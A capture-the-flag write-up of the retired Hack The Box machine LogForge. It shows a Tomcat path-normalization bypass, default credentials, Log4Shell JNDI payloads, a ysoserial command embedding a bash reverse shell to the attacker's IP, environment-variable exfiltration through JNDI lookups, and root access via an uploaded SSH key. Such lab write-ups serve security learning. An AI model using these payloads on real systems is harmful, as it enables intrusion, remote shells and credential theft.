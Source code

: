 # LogForge

This is the write-up for the box LogForge that got retired at the 23rd December 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.138    logforge.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/logforge.nmap 10.10.11.138
```

```
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows only an image so lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.11.138 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds _manager_ and _admin_, but both result in the HTTP status code _403 Forbidden_.

When browsing to a directory that does not exist, then it shows an HTTP status code _404 Not Found_ and reveals **Apache Tomcat/9.0.31** as the webserver in the footer.

By using the vulnerability in the [talk from BlackHat 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), it is possible to access restricted paths.

Using the payload on page 48 to access _/manager_:
```
http://10.10.11.138/a/..;/manager/
```

It now asks for authentication and the default credentials of **Tomcat** are working:
```
tomcat:tomcat
```

When trying to deploy a **WAR file** to execute code, it shows an error that the permitted file size is one byte, which will not work.
As **Tomcat** is a Java application, it may use **Log4j** for logging in the background and we can try to exploit the **Log4Shell** vulnerability.

Sending the payload in any field:
```
${jndi:ldap://10.10.14.7:8000/test}
```

After sending the request with the payload in any field, the listener on my IP and port 8000 receives a connection so this vulnerability can be used for code execution.

Creating a payload with [ysoserial-modified](https://github.com/pimps/ysoserial-modified):
```
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1' > logforge_payload.ser
```

Starting the listening server with the [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit):
```
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -P logforge_payload.ser
```

Sending one of the created payloads in any field:
```
${jndi:ldap://10.10.14.7:1389/p7ac94/CustomPayload}
```

After sending the request, the LDAP listener will receive a connection and execute the reverse shell command.
The listener on my IP and port 9001 starts a shell as the user _tomcat_.

## Privilege Escalation

In the initial port scan, the FTP service on port 21 was filtered.
When searching the processes, it shows that it is running a Java application as root:
```
ps -ef | grep -i ftp
```
```
root         987     986  0 15:57 ?        00:00:05 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

Testing if the FTP service is vulnerable to **Log4Shell**:
```
ftp localhost
```
```
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:8000/test}
```

The listener on my IP and port 8000 receives a connection, so this service is also vulnerable to **Log4Shell**.
Unfortunately this is a custom application, which does not use any of the default gadgets to create a payload with **ysoserial**.

The _jar_ file can be found in the root directory _ftpServer-1.0-SNAPSHOT-all.jar_ and can be analyzed with a decompiler like [JD-GUI](https://java-decompiler.github.io/).

In the main _Worker.class_ it sets two environment variables:
```
private String validUser = System.getenv("ftp_user");

private String validPassword = System.getenv("ftp_password");
```

By sniffing the traffic with **Wireshark**, it should be possible to intercept the values of the variables.

Sending the payload to the FTP service to get the environment variable _ftp_user_:
```
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:1389/${env:ftp_user}}
```
```
ippsec
```

Sending the payload to the FTP service to get the environment variable _ftp_password_:
```
Name (localhost:tomcat): ${jndi:ldap://10.10.14.7:1389/${env:ftp_password}}
```
```
log4j_env_leakage
```

The credentials work and it is possible to login to the FTP service.
The FTP service hosts the home folder of root and it is possible to upload an SSH key in _/root/.ssh/authorized_keys2_.

Creating _authorized_keys2_ in the folder with our generated public SSH key:
```
ftp> cd .ssh
ftp> put authorized_keys2
```

Login with root via SSH:
```
ssh -i logforge_root.key root@10.10.11.138
```
